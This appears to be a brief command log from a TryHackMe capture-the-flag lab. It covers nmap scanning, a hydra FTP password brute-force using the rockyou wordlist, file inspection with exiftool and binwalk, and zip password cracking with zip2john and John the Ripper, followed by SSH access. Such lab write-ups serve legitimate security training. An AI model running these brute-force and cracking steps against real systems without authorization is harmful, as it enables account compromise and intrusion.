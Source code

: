 
### TryHackMe Attackbox Used
## Task 2
### Commands Used: 
    nmap -sC -sV 10.10.139.170
### Programs Used:
   Burp Community Suite

## Task 3
### Commands Used:
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://<target ip>  
    
(in ftp) mget *  

exiftool cutie.png  

xxd cutie.png  

binwalk cutie.png  

zip2john 8702.zip > hash.txt

john hash.txt

## Task 4
### Commands Used:
ssh james@<target ip>

sudo scp james@<target ip>:Alien_autospy.jpg ~/





  
  
